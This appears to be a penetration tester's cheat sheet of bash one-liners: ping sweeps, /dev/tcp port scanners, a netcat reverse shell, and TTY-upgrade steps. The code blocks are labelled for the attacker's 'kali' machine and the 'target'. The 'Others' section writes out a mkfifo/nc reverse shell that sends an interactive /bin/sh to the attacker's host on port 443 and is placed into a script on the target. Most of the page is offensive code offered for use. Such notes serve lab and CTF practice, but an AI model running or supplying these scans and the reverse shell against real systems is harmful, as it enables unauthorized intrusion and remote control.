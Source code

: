```yaml
---
category: Uncategorized
tags: []
---
```

#### Network scanner
```bash - kali
#!/bin/bash

for i in `seq 1 255`; do ping -c 1 xxx.xxx.xxx.$i | tr \\n ' ' | awk '/1 received/ {print $2}'; done
```

```bash - kali
for i in {1..255}; do (ping -c 1 x.x.x.${i} | grep "bytes from" &); done
```

#### Port scanner
```bash - kali
#!/bin/bash

#./portscanner.sh -i xxx.xxx.xxx.xxx -p 

#Variables
empty=""
#Arguments for the script
while [ "$1" != "" ]; do
	case "$1" in
		-i | --ip )		ip="$2";	shift;;
		-p | --ports )		ports="$2";	shift;;
	esac
	shift
done
#Checking if the -i is empty
if [[ $ip == $empty ]]; then
	echo "Please specify an IP address with -i"
	exit
fi
#checking is -p is empty
if [[ $ports == $empty ]]; then
	echo "Please specify the max port range -p"
	exit
fi
#Scans ports/Dumps closed ports/displays open ports
for i in $(seq 1 $ports); do
	( echo > /dev/tcp/$ip/$i) > /dev/null 2>&1 && echo $ip":"$i "is open";
done
```

#### Another port scanner
```bash - kali
for i in {1..65535}; do (echo > /dev/tcp/$TARGET/$i) > /dev/null 2>&1 && echo $1 is open; done
```

#### Others
```bash - target
cat > script.sh <<EOF
```

```bash - target
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $KALI 443 >/tmp/f
```

```bash - target
EOF
```

#### STTY Terminal
```bash - target
CTRL+Z
```

```bash - kali
stty raw -echo
```

```bash - kali
stty size
```

```bash - kali
fg
```

```bash - target
export SHELL=bash
```

```bash - target
stty rows $x columns $y 
```

```bash - target
export TERM=xterm-256color
```


